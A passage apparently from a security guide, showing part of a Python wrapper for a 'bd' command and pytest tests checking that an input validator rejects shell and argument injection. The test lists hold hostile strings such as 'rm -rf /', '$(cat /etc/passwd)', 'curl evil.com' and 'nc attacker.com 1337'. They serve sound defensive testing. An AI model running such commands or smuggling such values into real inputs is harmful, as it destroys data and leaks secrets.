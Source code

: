 ```python
    )

    result = safe_bd_command(cmd.build())

    if result.returncode != 0:
        raise RuntimeError(f"bd command failed: {result.stderr}")

    return json.loads(result.stdout)
```

### Security Test Cases

```python
import pytest

def test_command_injection_prevention():
    """Test that shell injection is prevented."""
    # Malicious inputs
    malicious_titles = [
        "Test; rm -rf /",
        "Test`whoami`",
        "Test$(cat /etc/passwd)",
        "Test && curl evil.com",
        "Test | nc attacker.com 1337",
    ]

    for title in malicious_titles:
        with pytest.raises(ValueError):
            BeadsInputValidator.sanitize_title(title)

def test_argument_injection_prevention():
    """Test that argument injection is prevented."""
    malicious_labels = [
        "--db=/etc/passwd",
        "../../../etc/passwd",
        "--json; rm -rf /",
    ]

    for label in malicious_labels:
        with pytest.raises(ValueError):
            BeadsInputValidator.sanitize_label(label)

def test_subprocess_never_uses_shell():
    """Ensure subprocess calls never use shell=True."""
    # Static analysis test - check all subprocess calls
    import ast
    import inspect

    # Parse source code
    source = inspect.getsource(safe_bd_command)
    tree = ast.parse(source)

    # Find subprocess.run calls
    for node in ast.walk(tree):
        if isinstance(node, ast.Call):
            if hasattr(node.func, 'attr') and node.func.attr == 'run':
                # Check for shell=True
                for keyword in node.keywords:
                    if keyword.arg == 'shell':
                        assert keyword.value.value is False, "Found shell=True!"
```

---